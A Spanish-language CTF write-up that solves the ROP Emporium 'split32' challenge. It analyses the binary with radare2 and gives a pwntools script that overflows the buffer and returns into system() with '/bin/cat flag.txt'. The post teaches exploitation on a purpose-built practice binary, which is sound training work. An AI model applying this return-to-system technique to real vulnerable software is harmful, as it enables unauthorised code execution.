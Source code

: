 ```yaml
---
layout: post
title: Split32 - RopEmporium
tags: [ctf, ropemporium]
---
```


**Autor**: RopEmporium \\
**Challenge**: 2

![img](/imgs/write-ups/ropemporium/split32/split32.png#center)

## Introducción

Al igual que en el desafío anterior, las herramientas que voy a usar son **Radare2** y **PwnTools**.

Desde el siguiente enlace de me descargo un zip con el binario y la bandera, **[Split](https://ropemporium.com/challenge/split.html)**. En este writeup resuelvo la version **x86**.

## Información del binario

```
kali@kali:~/Desktop/ropemporium$ rabin2 -I split32 
arch     x86
baddr    0x8048000
binsz    6256
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

Volvemos a ver que **nx** está activado, por lo que el stack no es ejecutable. También compruebo que efectivamente su arquitectura es **x86**.

## Ejecución

Al ejecutar el binario me muestra un texto y luego me pide una entrada.

```
kali@kali:~/Desktop/ropemporium$ ./split32                                                   
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> LordP4
Thank you!

Exiting
```

La ejecución no es muy diferente al caso anterior.

## Funciones

Listo las funciones dentro de radare2.

```
[0xf7f1b450]> afl
[...]
0x080485ad    1 95           sym.pwnme
[...]
0x0804860c    1 25           sym.usefulFunction
[...]
0x08048546    1 103          main
[...]
```

Otra vez, tenemos 2 funciones interesantes a parte del main.

### Main

![img](/imgs/write-ups/ropemporium/split32/main.png#center)

**1)** Anoto esta dirección que será la que tenga que sobreescribir en el stack.

### Pwnme

![img](/imgs/write-ups/ropemporium/split32/pwnme.png#center)

En las marcas **1** y **2** vemos el tamaño reservado para la variable (0x20) y el tamaño de la entrada del usuario(0x60).

### UsefulFunction

![img](/imgs/write-ups/ropemporium/split32/useful.png#center)

En esta función ya comienza lo divertido. Vemos que otra vez carga una cadena con un comando a ejecutar, pero esta vez es **/bin/ls**. Pero este comando no nos sirve para leer el archivo "flag.txt" por lo que hay que utilizar otra cadena que por conveniencia ya se encuentra en el binario.

![img](/imgs/write-ups/ropemporium/split32/flag.png#center)

Tendremos que pasar la cadena "/bin/cat flag.txt" a la llamada a **system()**.

## Explotación

Para realizar la explotación, creo un script en python en el que utilizaré **pwntools**.

En este desafío no utilizo la dirección del comienzo de la funcion **sym.usefulFunction** dado que se cargaría el comando **/bin/ls**. En este caso hay que cargar la dirección de **sym.imp.system** directamente, pero antes de eso, en el stack debería estar la dirección en la que se encuentra el comando que quiero ejecutar ("/bin/cat flag.txt"). Para conseguir esto, añado la dirección del comando después de sobreescribir la dirección de retorno.

exploit.py

```python
#!/bin/python3

from pwn import *

p = process("./split32")
p.recvuntil(">")

payload = b""
payload += b"A" * 44       # Padding
payload += p32(0x0804861a) # 0x0804861a call sym.imp.system
payload += p32(0x0804a030) # 0x0804a030 .data  ascii "/bin/cat flag.txt"

p.sendline(payload)

print(p.recvall())
```

## Solución

Al ejecutarlo, obtenemos la bandera.

```
kali@kali:~/Desktop/ropemporium$ python3 exploit.py
[+] Starting local process './split32': pid 55324
/home/kali/Desktop/ropemporium/exploit.py:4: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(">")
[+] Receiving all data: Done (45B)
[*] Stopped process './split32' (pid 55324)
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

Y con esto termina mi solución. :)
